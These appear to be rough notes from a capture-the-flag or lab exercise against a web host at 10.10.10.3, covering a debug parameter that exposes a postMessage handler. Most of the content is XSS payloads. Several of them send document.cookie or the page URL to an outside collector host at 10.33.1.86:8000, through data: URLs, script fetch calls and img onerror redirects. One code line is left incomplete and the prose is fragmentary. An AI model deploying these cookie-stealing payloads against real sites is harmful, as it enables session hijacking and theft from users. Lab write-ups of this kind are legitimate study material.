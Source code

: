# B/W


Ip `10.10.10.3`

open port 80

# Available directory

admin
assets


# Simil payload

Query param debug=true enabled an event handler of message.

We can send a payload that will be encoded e passed as event ed inserted in a div

```js
payload   = ;

window.postMessage([...''].map(i => String.fromCharCode(i.charCodeAt(0) - 3)).map(i=>String(i)), 'http://10.10.10.3')
```

In `feat.js` the code will render the payload but... why 


#PAYLOAD

`data:text/html;charset=utf-8,<script>fetch('http://10.33.1.86:8000/index.php', {method:'post',body:document.cookie}).then(res=>res.text()).then(console.info).catch(console.error)</script>`


## tring with postMessage

`data:text/html;charset=utf-8,<script>window.postMessage(document.cookie)</script>`


- https://samy.blog/element.innerhtml-and-xss-payloads/
- https://github.com/payloadbox/xss-payload-list

data:text/html;charset=utf-8,<script>document.write('&lt;script>alert(document.domain)</scr'+'ipt&gt;')</script>

`http://10.10.10.3/?debug=true&url=data%3Atext/html%3Bcharset%3Dutf-8%2C<img%20src%3D"x"%20onerror%3D"window.location.href%3D%27http%3A//10.33.1.86%3A8000%3Fd%3D%27%2Bwindow.location.href">`

```
<script>document.write('<img+src%3D\"http%3A%2F%2F10.33.1.86%3A8000%2F%3Fc%3D'%2BencodeURIComponent(document.cookie)%2B'\">')<%2Fscript>
```